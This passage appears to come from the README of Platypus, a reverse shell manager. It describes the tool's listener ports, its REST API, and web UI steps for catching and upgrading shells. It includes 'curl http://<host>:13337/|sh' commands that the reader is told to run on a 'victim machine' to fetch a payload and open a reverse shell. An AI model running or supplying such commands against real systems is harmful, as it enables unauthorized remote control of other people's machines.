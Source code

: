 ![](./docs/zh/docs/images/cli/start.gif)

As you can see, platypus will check for updates, then start listening on port 13337, 13338 and 7331

The three port have different aims.
- 13337 Reverse shell server, which **disallows** the reverse session comes from the IP.
- 13338 Reverse shell server, which **allows** the reverse session comes from the IP.
- 7331 Platypus [RESTful](./doc/RESTful.md) API EndPoint, which allows you to manipulate Platypus through HTTP protocol or [Python SDK](./doc/SDK.md).

If you want another reverse shell listening port, just type `Run 0.0.0.0 1339` or modify the `config.yml`.

Also, platypus will print help information about [RaaS](./doc/RaaS.md) which release you from remembering  tedious reverse shell commands. 

With platypus, all you have to do is just copy-and-paste the `curl` command and execute it on the victim machine.

```bash
curl http://127.0.0.1:13337/|sh
curl http://192.168.88.129:13337/|sh
```

Now, suppose that the victim is attacked by the attacker and a reverse shell command will be executed on the machine of victim.

![](./docs/zh/docs/images/cli/connect.gif)

> Notice, the RaaS feature ensure that the reverse shell process is running in background and ignore the hangup signal.

## Get start with Web UI

### Manage listening port

![](./docs/zh/docs/images/webui/add.gif)

### Wait for client connection

![](./docs/zh/docs/images/webui/wait.gif)

### Popup an interactive shell

![](./docs/zh/docs/images/webui/shell.gif)

### Upgrade a reverse shell to an encrypted channel (Termite)

![](./docs/zh/docs/images/webui/upgrade.gif)

## Get start with cli
